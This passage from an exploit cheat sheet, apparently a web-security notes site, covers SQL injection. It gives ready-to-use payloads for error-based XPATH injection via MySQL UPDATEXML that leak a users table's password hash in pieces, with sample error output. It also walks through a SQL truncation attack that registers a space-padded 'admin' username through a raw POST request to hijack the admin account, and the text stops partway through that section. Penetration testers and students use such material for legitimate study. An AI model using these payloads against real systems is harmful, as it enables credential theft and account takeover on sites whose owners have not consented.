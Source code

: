   

## [XPATH Injection](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#xpath-injection)

### [MySQL](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#mysql-1-1-1)

```bash
' AND UPDATEXML(NULL,CONCAT(0x3a,(SELECT SUBSTRING(password,1,16) FROM users)),null)-- -
```

If the error result appears such like the following, we retrieved the piece of the password hash.

```bash
XPATH syntax error: ':3ac6b24dc611a692'
```

So we can find the remaining of the password hash by injecting below command.

```bash
' AND UPDATEXML(NULL,CONCAT(0x3a,(SELECT SUBSTRING(password,17,32) FROM users)),null)-- -
```

  

## [Truncation Attack](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#truncation-attack)

We can add another user which is the same name as the existing user by registering the same name user with enough “spaces” to truncate a username.  
First off, check the table schema if can.

```sh
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
```

Now send POST request with a payload to create a new admin.

```sh
# POST request
POST /create-user HTTP/1.1

# Create another new "admin" with more than 64 characters. Btw, "+" means the spaces.
username=admin+++++++++++++++++++++++++++++++++++++++++++++++++++++++++random&password=password
```

Then check if we can login with a new admin.

```sh
username=admin&password=password
```

Fetch the admin's information with the original password.
